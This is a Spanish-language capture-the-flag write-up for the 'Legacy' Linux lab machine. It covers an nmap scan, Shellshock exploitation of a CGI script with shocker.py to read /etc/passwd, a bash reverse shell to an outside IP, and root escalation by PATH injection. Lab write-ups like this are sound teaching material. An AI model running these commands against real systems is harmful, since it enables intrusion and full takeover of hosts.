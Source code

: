 # Legacy - HACKMEX
*OS*: Linux   
*Dificultad*: Medium   
*Puntos*: 6,200 pts   
*Solucionado por*: M41w4r3
## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
´´´
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
´´´
## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
imagen 1
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN
´´´
Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
´´´
´´´
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : /bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1
y asi pude obtener una reverse shell con el servidor
´´´ 
## Privilege Escalation 
´´´
identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos
´´´
´´´
despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el ls asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : echo "/bin/sh" > ls -> esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : export PATH=/tmp/:$PATH
despues ejecutamos el archivo y nos da la shell de root
´´´
## Archivos utilizados 
*shocker.py*
## Referencias

https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
https://github.com/nccgroup/shocker